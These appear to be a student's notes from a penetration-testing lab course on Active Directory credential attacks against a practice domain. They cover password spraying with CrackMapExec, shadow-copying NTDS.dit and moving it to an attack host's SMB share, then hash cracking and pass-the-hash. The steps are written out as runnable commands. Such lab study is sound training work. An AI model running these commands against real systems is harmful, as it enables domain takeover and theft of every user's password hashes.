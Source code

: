 Once a Windows system is joined to a domain, it will `no longer default to referencing the SAM database to validate logon requests`

Someone looking to log on using a local account in the SAM database can still do so by specifying the `hostname` of the device proceeded by the `Username` (Example: `WS01/nameofuser`) or with direct access to the device then typing `./` at the logon UI in the `Username` field.

study NTDS attacks by keeping track of this [technique](https://attack.mitre.org/techniques/T1003/003/).

## Dictionary Attacks against AD accounts using CrackMapExec

Many organizations follow a naming convention when creating employee usernames.

A tip from MrB3n: We can often find the email structure by Googling the domain name, i.e., “@inlanefreight.com” and get some valid emails. From there, we can use a script to scrape various social media sites and mashup potential valid usernames. Some organizations try to obfuscate their usernames to prevent spraying, so they may alias their username like a907 (or something similar) back to joe.smith. That way, email messages can get through, but the actual internal username isn’t disclosed, making password spraying harder. Sometimes you can use google dorks to search for “inlanefreight.com filetype:pdf” and find some valid usernames in the PDF properties if they were generated using a graphics editor. From there, you may be able to discern the username structure and potentially write a small script to create many possible combinations and then spray to see if any come back valid.

#### Creating a Custom list of Usernames

We can manually create our list(s) or use an `automated list generator` such as the Ruby-based tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to convert a list of real names into common username formats. Once the tool has been cloned to our local attack host using `Git`, we can run it against a list of real names as shown in the example output below:

#### Launching the Attack with CrackMapExec

attack against the target domain controller using a tool such as CrackMapExec

use it in conjunction with the SMB protocol to send logon requests to the target Domain Controller

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```
At the time of this writing (January 2022), an account lockout policy is not enforced by default with the default group policies that apply to a Windows domain, meaning it is possible that we will come across environments vulnerable to this exact attack we are practicing.

#### Event Logs from the Attack

navigate to `Event Viewer` and view the Security events to see the exact actions that were logged. This can inform decisions to implement stricter security controls and assist in any potential investigation that might be involved following a breach.

Once we have discovered some credentials, we could proceed to try to gain remote access to the target domain controller and capture the NTDS.dit file.

---
## Capturing NTDS.dit

`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources

Location: `%systemroot%/ntd`

The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html)

primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information

#### Connecting to a DC with Evil-WinRM

```shell-session
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

connects using WinRm 

#### Checking Local Group Membership

Once connected, we can check to see what privileges `bwilliamson` has. We can start with looking at the local group membership using the command:


```shell-session
 net localgroup
```


To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights

#### Checking User Account Privileges including Domain

```shell-session
net user bwilliamson
```

#### Creating Shadow Copy of C:

 `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive

```shell-session
vssadmin CREATE SHADOW /For=C:
```
###### Note
We use VSS for this because it is designed to make copies of volumes that may be read & written to actively without needing to bring a particular application or system down. VSS is used by many different backup & disaster recovery software to perform operations.
#### Copying NTDS.dit from the VSS

```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### Transferring NTDS.dit to Attack Host

```shell-session
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

#### A Faster Method: Using cme to Capture NTDS.dit

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

--------

## Cracking Hashes & Gaining Credentials

```shell-session
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

What if we are unsuccessful in cracking a hash?
use PtH attacks

---

## Pass-the-Hash Considerations

A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`

#### Pass-the-Hash with Evil-WinRM Example

```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```



